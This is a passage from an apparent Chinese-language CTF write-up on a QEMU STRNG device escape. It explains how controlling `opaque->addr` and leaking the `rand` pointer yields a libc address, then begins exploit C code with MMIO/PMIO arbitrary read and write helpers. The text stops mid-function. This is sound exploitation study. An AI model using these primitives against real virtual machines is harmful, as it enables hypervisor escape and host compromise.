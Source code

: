 ```c
          {
            // assign new seed
            opaque->srand(val);
          }
        }
      }
    }
    else
    {
      // addr == 0
      opaque->addr = val;
    }
  }
}
```

- 同上，是用 `opaque->addr` 來作為 index
- 而當 addr 為 0 時，我們可以控制 `opaque->addr` 的內容



可以在 gdb 當中使用 `p *(STRNGState *)$rdi` 來印出整個 `STRNGState` 結構，而其中可以 leak 出存在於 `STRNGState.regs` 下方的 `rand` 而得到 libc address

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/io.h>
#include <stdint.h>

// gcc -m32 -O0 -static -o exp exp.c

unsigned char *mmio_mem;
uint32_t pmio_base = 0xc050; // I/O port

uint32_t mmio_read(uint32_t addr)
{
	return *((uint32_t *)(mmio_mem + addr));
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t *)(mmio_mem + addr)) = value;
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t) inl(addr);
}

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value, addr);
}

uint32_t pmio_aar(uint32_t offset)
{
    pmio_write(pmio_base + 0, offset);
    return pmio_read(pmio_base + 4);
}

uint32_t pmio_aaw(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base + 0, offset);
    pmio_write(pmio_base + 4, value);
```